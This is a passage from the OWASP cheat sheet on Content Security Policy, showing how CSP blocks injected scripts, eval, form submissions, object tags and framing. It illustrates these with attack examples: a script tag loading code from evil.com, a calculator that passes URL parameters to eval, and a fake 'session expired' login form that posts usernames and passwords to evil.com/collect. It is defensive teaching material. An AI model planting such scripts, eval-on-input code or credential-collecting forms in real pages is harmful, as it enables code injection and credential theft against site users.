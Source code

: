 ```
<script src="https://evil.com/hacked.js"></script>
```

will not work.

**3. Restricting Unsafe JavaScript**[**¶**](https://cheatsheetseries.owasp.org/cheatsheets/Content\_Security\_Policy\_Cheat\_Sheet.html#3-restricting-unsafe-javascript)

By preventing the page from executing text-to-JavaScript functions like `eval`, the website will be safe from vulnerabilities like the this:

```
// A Simple Calculator
var op1 = getUrlParameter("op1");
var op2 = getUrlParameter("op2");
var sum = eval(`${op1} + ${op2}`);
console.log(`The sum is: ${sum}`);
```

**4. Restricting Form submissions**[**¶**](https://cheatsheetseries.owasp.org/cheatsheets/Content\_Security\_Policy\_Cheat\_Sheet.html#4-restricting-form-submissions)

By restricting where HTML forms on your website can submit their data, injecting phishing forms won't work either.

```
<form method="POST" action="https://evil.com/collect">
<h3>Session expired! Please login again.</h3>
<label>Username</label>
<input type="text" name="username"/>

<label>Password</label>
<input type="password" name="pass"/>

<input type="Submit" value="Login"/>
</form>
```

**5. Restricting Objects**[**¶**](https://cheatsheetseries.owasp.org/cheatsheets/Content\_Security\_Policy\_Cheat\_Sheet.html#5-restricting-objects)

And by restricting the HTML [object](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/object) tag, it also won't be possible for an attacker to inject malicious flash/Java/other legacy executables on the page.

#### Defense against framing attacks[¶](https://cheatsheetseries.owasp.org/cheatsheets/Content\_Security\_Policy\_Cheat\_Sheet.html#defense-against-framing-attacks) <a href="#defense-against-framing-attacks" id="defense-against-framing-attacks"></a>

Attacks like clickjacking and some variants of browser side-channel attacks (xs-leaks) require a malicious website to load the target website in a frame.

Historically the `X-Frame-Options` header has been used for this, but it has been obsoleted by the `frame-ancestors` CSP directive.
